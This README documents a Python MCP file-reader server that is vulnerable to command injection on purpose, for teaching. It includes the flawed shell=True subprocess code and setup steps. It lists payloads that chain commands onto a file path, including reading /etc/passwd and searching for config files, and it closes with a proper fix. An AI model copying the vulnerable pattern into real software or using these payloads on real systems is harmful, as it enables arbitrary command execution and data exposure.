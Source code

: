 # Command Injection Vulnerability in MCP File Reader

This repository demonstrates a critical command injection vulnerability in a Python MCP (Model Context Protocol) server implementation. The vulnerability allows attackers to execute arbitrary shell commands on the host system by manipulating the file path parameter.

## The Vulnerability

The vulnerability exists in the `read_file` function which is intended to read files from a "safe" directory but contains a dangerous implementation flaw:

```python
command = f"cat {file_name}"
result = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
```

This code is vulnerable because:

1. It uses `shell=True` which invokes a shell to execute the command
2. It directly interpolates user input (`file_name`) into the command string without proper sanitization
3. It performs only superficial validation on the input path

A simple semantic difference between using quotes around the filename (`'file_name'`) and not using quotes (`file_name`) exposes the entire system to command execution.

## Installation

### Prerequisites

- Python 3.12 or higher
- MCP library version 1.6.0

### Setup

1. Clone this repository:
   ```bash
   git clone https://github.com/Eliran79/Vulnerable-file-reader-server.git
   cd Vulnerable-file-reader-server
   ```

2. Install the MCP server:
   ```bash
   mcp install main.py
   ```

3. Configure Claude Desktop to use your MCP server by editing `~/.config/claude-desktop/claude_desktop_config.json`:
   ```json
   {
     "mcpServers": {
       "file-reader": {
         "command": "/ABSOLUTE/PATH/TO/uv",
         "args": [
           "--directory",
           "/data/git/file_reader_server",
           "/usr/bin/uv",
           "run,--with,mcp,mcp,run,main.py"
         ]
       }
     }
   }
   ```
   
   Be sure to replace `/ABSOLUTE/PATH/TO/uv` with the actual path to your uv executable and adjust the directory path if needed.

4. Start the MCP server in development mode:
   ```bash
   mcp dev main.py
   ```

## Demonstration

1. In a separate terminal, install and run the MCP inspector:
   ```bash
   pip install mcp-inspector
   mcp-inspector
   ```

2. Connect to the server in the MCP Inspector GUI:
   - Set Transport Type to "STDIO"
   - Set Command to: `run --with mcp run main.py`
   - Click "Restart"

3. Exploit the vulnerability:
   - Go to the "Tools" tab
   - Find the "read_file" tool
   - In the "file_name" field, enter:
     ```
     /tmp/safe/test.txt; whoami
     ```
   - Click "Run Tool"

4. You should see the contents of test.txt followed by your username, demonstrating successful command execution.

## Additional Exploitation Examples

Here are more command injection payloads to try:

```
/tmp/safe/test.txt; id
/tmp/safe/test.txt; ls -la /etc
/tmp/safe/test.txt; cat /etc/passwd
/tmp/safe/test.txt; echo $(hostname)
/tmp/safe/test.txt; find / -name "*.conf" 2>/dev/null | head -5
```

## Proper Fix

To fix this vulnerability, never use `shell=True` with user-provided input. Instead:

```python
# SECURE: Use a list of arguments instead of shell=True
result = subprocess.check_output(['cat', file_name], shell=False)

# OR, if shell=True is necessary, properly quote the argument:
import shlex
result = subprocess.check_output(f"cat {shlex.quote(file_name)}", shell=True)

# AND perform proper path validation:
import os
safe_dir_resolved = os.path.abspath(SAFE_DIRECTORY)
requested_path_resolved = os.path.abspath(file_name)
if not requested_path_resolved.startswith(safe_dir_resolved):
    return f"Error: Access denied. Path traversal attempt detected."
```

## Warning

⚠️ **FOR EDUCATIONAL PURPOSES ONLY**: This implementation contains deliberate security vulnerabilities. Never use this code in a production environment or on any system that contains sensitive information.
